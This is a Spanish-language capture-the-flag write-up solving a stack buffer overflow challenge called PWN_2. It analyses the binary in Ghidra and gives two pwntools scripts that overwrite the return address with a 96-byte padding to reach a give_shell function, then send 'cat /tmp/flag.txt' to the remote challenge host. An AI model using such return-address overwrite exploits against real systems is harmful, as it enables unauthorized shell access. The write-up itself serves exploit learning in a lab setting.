

# PWN_2

Mi primera interacción es conectarme al servidor con `nc` e intentar meter una cadena de caracteres muy larga para ver que ocurre. Vemos que esta vez no es tan sencillo pues a pesar de conseguir hacer bufferoverflow, intenta mostrarnos la flag, sin embargo no puedo porque no se encuentra en el mismo directorio en el servidor. Una pista que nos da es que se encuentra en la carpeta.


Me descago el código correspondiente al reto, y lo primero que hacemos es mandarlo a ghidra, para ver como se ha compilado y observar las funciones. Para ver las funciones usamos gdb listando con el comando


La funcion que nos interesa obtener es give_shell, pues con ella podremos movernos hasta el directorio `/tmp/flag.txt` . En ghidra vamos a calcular el tamaño del buffer de esa funcion, para intentar pisar los siguientes valores y conseguir que salte a la función `give_shell`.


El tamaño del buffer es de `0x60` (96 bytes) lo cual, deberemos insertar esa cantidad para llenar el buffer y conseguiremos acceso a la shell.

Hemos modificado el archivo original de la plantilla para adaptarlo a nuestro exploit. De esta manera tenemos lo siguiente:

```jsx
from pwn import *

# Configuración inicial
exe = './pwnthemall2'  # Cambia al nombre de tu binario
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'info'
context.arch = 'amd64'  # Cambia a 'i386' si es un binario de 32 bits

# Opciones de inicio
def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], int(sys.argv[2]), *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

# Script para GDB (opcional, ajusta según necesidad)
gdbscript = '''
break *main
continue
'''.format(**locals())

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Configuración
offset = 96  # Ajusta según tu análisis del binario
ret_address = 0x000000000040127c  # Cambia a la dirección real de la función objetivo

# Construcción del payload
payload = b"A" * offset  # Sobrescribir hasta la dirección de retorno
payload += p64(ret_address)  # Direccion de retorno (usa p32 si es i386)

# Inicio del exploit
io = start()
io.sendline(payload)
io.interactive()
```

Tras ejecutarlo con: `python3 script_2.py` obtenemos el siguiente resultado:

Parece que hemos conseguido saltar a la función `gife_shell`.


Todo esto lo hemos realizado de manera local, es decir, no conseguimos nada. Ahora ejecutaremos el script pero esta vez pasandole los parámetros de la conexión con el servidor.

`python3 script_2.py REMOTE 2f8a1b39ec.pwnth-vulnerable.numa.host 9982`

Y parece que obtenemos la reversh shell aunque a pesar de todo no nos devuelve nada:



Vemos que no nos funciona no sabemos porque. Cambiamos el codigo para que no tengamos que introducir nosotros comandos adicionales, sino que el mismo escriba la lectura de la flag.

```python
from pwn import *

# Configuración inicial
exe = './pwnthemall2'  # Cambia al nombre de tu binario
elf = context.binary = ELF(exe, checksec=False)
context.log_level = 'info'
context.arch = 'amd64'  # Cambia a 'i386' si es un binario de 32 bits

# Opciones de inicio
def start(argv=[], *a, **kw):
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.REMOTE:
        return remote(sys.argv[1], int(sys.argv[2]), *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

# Script para GDB (opcional, ajusta según necesidad)
gdbscript = '''
break *main
continue
'''.format(**locals())

# ===========================================================
#                    EXPLOIT GOES HERE
# ===========================================================

# Construcción del payload
offset = 96  # Ajusta según tu análisis del binario
ret_address = 0x000000000040127c  # Dirección de la función que quieres ejecutar

payload = b"A" * offset
payload += p64(ret_address)

# Inicio del exploit
io = start()
io.sendline(payload)

# Intenta leer el archivo de la flag
io.sendline(b"cat /tmp/flag.txt")

# Captura la salida
output = io.recvall().decode()
print(output)

io.close()

```

Con esto, obtendriamos el siguiente resultado:


